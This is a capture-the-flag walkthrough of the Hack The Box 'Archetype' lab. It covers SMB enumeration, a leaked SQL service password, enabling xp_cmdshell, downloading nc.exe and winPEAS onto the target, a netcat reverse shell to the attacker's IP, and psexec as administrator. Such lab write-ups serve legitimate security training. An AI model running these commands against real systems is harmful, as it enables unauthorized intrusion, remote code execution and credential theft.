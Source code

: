 # Archetype

## Nmap & Footprinting

- Run an nmap scan to collect IP, OS, version, scripts, and trace route information
	* `sudo nmap -sV -sC -oA ./nmap/archetype 10.129.181.76`
- TCP port that is hosting the database is port `1433`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/nmap_scan.png)

## SMB Shares

- Run smbclient command to view smb shares
	* `smbclient -N -L \\\\10.129.16.28\\`
	* Name of the non-administrative share available over SMB is `backups`we can tell this is the non-administrative share because all administrative shares are marked with `$`.

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/sharename.png)

- Access the SMB share "backups" to obtain username and password:
	* `smbclient -N \\\\10.129.16.28\\backups`
	* `ls`
	* `get prod.dtsconfig`
	* `exit`
	* `echo "M3g4c0rp123;User ID=ARCHETYPE\sql_svc" > user.txt`

- The password identified in the SMB share is `M3g4c0rp123`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/user_password.png)

## MS SQL Client

- `Mssqlclient.py` script from impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server. Since the credentials for the share has been acquired, locate and access MS SQL Client:
	* `locate mssqlclient`
	* `/usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@10.129.16.28 -windows-auth`
	* Password: `M3g4c0rp123`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/accessing_mssqlclient.png)

## XP Command Shell

- `Xp_cmdshell` extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell. Enable the xp_cmdshell, upload an Netcat listener and a reverse shell to establish a direct command line access.
	* `help`
	* `enable xp_cmdshell`
	* `RECONFIGURE ;`
	* xp_cmdshell `whoami`
## Netcat

* Locate the "nc.exe" file on machine, if not installed, it will need to be installed.
* In a separate terminal in Kali navigate to the directory where the "nc.exe" is and run: `sudo python3 -m http.server 80`
	* Go back to xp_cmdshell and download "nc.exe" from local machine to target `xp_cmdshell powershell -c cd c:\Users\sql_svc\Downloads\; wget http://10.10.16.233/nc.exe -outfile nc.exe`
	* The Netcat was downloaded to the target successfully after receiving the "200" status response code.
* Open another terminal in Kali and navigate to the directory above and and run `nc -lvnp 4444`
	* Execute `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.16.233 4444`

	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/xp_cmdshell_netcat.png)

	* Navigate to the directory that contains Flag1
		
	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/flag.txt.png)

## winPEAS

* `WinPEAS script` can be used in order to search possible paths to escalate privileges on Windows hosts. Since there is no access to the Admin directory, winPEAS will be used to acquire the admin credentials.
	* Enter `powershell` 
	* `wget http://10.10.16.233/winPEASx64.exe -outfile winPEAS.exe`
	* Run `.\winPEAS.exe`
			
	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/winpeas.png)

	* `ConsoleHost_history.txt` contains the admin password. Locate the Administrative credentials, copy and paste credentials into Kali.
	* In Kali, enter `locate psexec`
	* Enter `/usr/bin/impacket-psexec administrator@10.129.181.76`
	* Enter password 
	* Locate the root flag
			
	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/root.txt.png)

Tags: Networks, Protocols, MSSQL, SMB, Impacket, Powershell, Penetration Tester, Reconnaissance, Remote Code Execution, Clear Text Credentials, Information Disclosure, Anonymous/Guest Access 
